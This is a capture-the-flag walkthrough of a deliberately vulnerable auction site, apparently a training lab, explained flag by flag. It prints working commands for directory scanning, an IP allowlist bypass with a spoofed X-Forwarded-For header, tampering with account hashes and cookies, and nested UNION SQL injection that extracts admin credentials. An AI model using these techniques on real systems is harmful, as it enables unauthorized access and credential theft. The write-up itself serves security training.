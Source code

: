 
## Flag 1

Try to guess the path, in ``robots.txt``

```
User-agent: *
Disallow: s3cr3t-4dm1n/
```

But it gives a ``403`` response while accessing ``s3cr3t-4dm1n``. Try to scan any subpath in ``s3cr3t-4dm1n/`` with ``dirb``.

```
dirb http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n ../dirb222/wordlists/common.txt
```

```
---- Scanning URL: http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/ ----                                                                                       
+ http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/.htaccess (CODE:200|SIZE:69)
...
```

Now we have an accessible path ``.htaccess``. Request the file it with ``httpie``.

```
http -v http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/.htaccess

GET /c9c213fc7b/s3cr3t-4dm1n/.htaccess HTTP/1.1
User-Agent: HTTPie/1.0.3
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Host: 35.227.24.107



HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 29 Mar 2021 06:16:00 GMT
Content-Type: plain/text
Transfer-Encoding: chunked
Connection: keep-alive
Content-disposition: attachment; filename=.htaccess

Order Deny,Allow
Deny from all
Allow from 8.8.8.8
Allow from 8.8.4.4
```

Allowed IPs are ``8.8.8.8`` and ``8.8.4.4``. Now try to request ``s3cr3t-4dmin`` again with one of these IPs.

```
http -v GET http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/ X-Forwarded-For:8.8.8.8
```

In response there is one flag and admin login form.


## Flag 2

Register a user account and login with it, there are four options in dashboard. Switch to subusers, it allows us to register subuser under current user account. The request needs three parameters, ``owner_hash``, ``new_username`` and ``new_password``. It's slightly different from register form at home page, try to request a new account with ``owner_hash`` parameter and the value is account hash of user ``hunter2``. Account hash of user ``hunter2`` is located in a hidden field in password reset page.

```
http -v --form POST http://35.227.24.107/c9c213fc7b/register owner_hash=cf505baebbaf25a0a4c63eb93331eb36 new_username=888 new_password=onetwo
```

Now the new user ``888`` has been created, login with it, the account is still awaiting activation, but we get the second flag.


## Flag 3


To activate user ``888``, we need to login as another user ``one`` to use the subuser enable function, but change the subuser hash to ``888``'s account hash and ``userhash`` in cookie to ``hunter2``'s account hash.

```
http -v --form POST http://35.227.24.107/c9c213fc7b/dashboard/subusers \
  "Cookie:token=MzY4MGM4Nzg5YTQzMTEwYzc4MmZjZmNjZTg5ODJhYTc5NWUyZDU4OWZlZTNkMmFlZjliZDBlNjgwNjQ1ZGQzMDQ2YWYyZTAzYmU1Mzk3MzEzMjA1YTQxYzdkNDYwYWI3OTRjZGI4Y2UzODBmOTdmZWQ3MmExZjgyYWQwZGU2YjM%3D;userhash=cf505baebbaf25a0a4c63eb93331eb36"\
  hash=1997b46b3fea065fa085562a6a6dcc09\
  enable_toggle=enable

```

After the previous step, logout user ``one`` and login as user ``888``, the third flag is right under user details.


## Flag 4

In source code of ``Your Auctions`` section exists a subpath``auctions/questions``, it takes one parameter ``id``, which is auction type id from ``1`` to ``5``.

```
{"name":"Desktops","questions":[{"question":"Make","field_name":"field_4728_186574"},{"question":"Model","field_name":"field_5738_281961"},{"question":"RAM","field_name":"field_5051_369408"},{"question":"Processors","field_name":"field_4032_347621"}],"auctions":[{"id":"1","title":"Ultra Desktop"},{"id":"9","title":"Premium Desktop"},{"id":"10","title":"Work Station"}]}
```

If we give it ``id=0``, error message returns.

```
{"error":"Invalid auction type ID entered"}
```

A normal response contains three fields, ``name``, ``questions`` and ``auctions``. Try to use ``union`` to guess some information out of it. 


```
0 union select '0 union select 1',2,'[]' --
```

Payload above give us the following response.

```
{"name":"[]","questions":[],"auctions":[]}
```

Keep adding column numbers until something different shown.

```
0 union select '0 union select 1,2,3,4,5,6,7,8,9',10,'[]' --
```

In response column ``1`` was taken as auction id, column ``6`` was taken as title and name was replaced by ``10``.

```
{"name":"10","questions":[],"auctions":[{"id":"1","title":"6"}]}
```

Now chage ``1`` to ``table_name`` to get table names from ``information_schema``.

```
0 union select '0 union select table_name,2,3,4,5,6,7,8,9 from information_schema.tables',10,'[]' --
```

In output, table ``admin`` and ``auction`` are interesting.

```
{"name":"10","questions":[],"auctions":[{"id":"admin","title":"6"},{"id":"auction","title":"6"},
{"id":"ALL_PLUGINS","title":"6"},{"id":"APPLICABLE_ROLES","title":"6"},
{"id":"CHARACTER_SETS","title":"6"},{"id":"COLLATIONS","title":"6"},
{"id":"COLLATION_CHARACTER_SET_APPLICABILITY","title":"6"},
{"id":"COLUMNS","title":"6"},
{"id":"COLUMN_PRIVILEGES","title":"6"},
{"id":"ENABLED_ROLES","title":"6"},
{"id":"ENGINES","title":"6"},
{"id":"EVENTS","title":"6"},
{"id":"FILES","title":"6"},
...
```

Try to list columns in table ``admin``.

```
0 union select '0 union select COLUMN_NAME,2,3,4,5,6,7,8,9 from INFORMATION_SCHEMA.COLUMNS where table_name="admin"',10,'[]' --
```

```
{"name":"10","questions":[],"auctions":[{"id":"id","title":"6"},{"id":"username","title":"6"},{"id":"password","title":"6"}]}
```

Now we know there are three columns in the table, try to fetch ``username`` and ``password`` from it, replace column ``1`` with ``username`` and column ``6`` with ``password``.

```
0 union select '0 union select username,2,3,4,5,password,7,8,9 from admin',10,'[]' --
```

```
{"name":"10","questions":[],"auctions":[{"id":"h4ckerbayadmin","title":"auction$rFun!"}]}
```

So the username is ``h4ckerbayadmin`` and password is ``auction$rFun!``.

Remember the admin login page we get before? Now login with correct credential.

```
http -v --form POST http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/ \
  X-Forwarded-For:8.8.8.8 \
  username=h4ckerbayadmin \
  password="auction\$rFun!" 
```

Access admin page with received token.

```
http -v GET http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/\
  X-Forwarded-For:8.8.8.8 \
  Cookie:admin-token=DF120B994C5FD4377A42F55D086F6EF7
```

Input the auction hash shown in ``dashboard/auctions`` page while login as ``888``.

```
http -v --form POST http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/\
  X-Forwarded-For:8.8.8.8 \
  Cookie:admin-token=DF120B994C5FD4377A42F55D086F6EF7 \
  auction_hash=8ylbbgs2
```

Delete it with ``action=delete``

```
http -v --form POST http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/ \
  X-Forwarded-For:8.8.8.8 \
  Cookie:admin-token=DF120B994C5FD4377A42F55D086F6EF7 \
  auction_hash=8ylbbgs2 \
  action=delete
```

The last flag is in response.
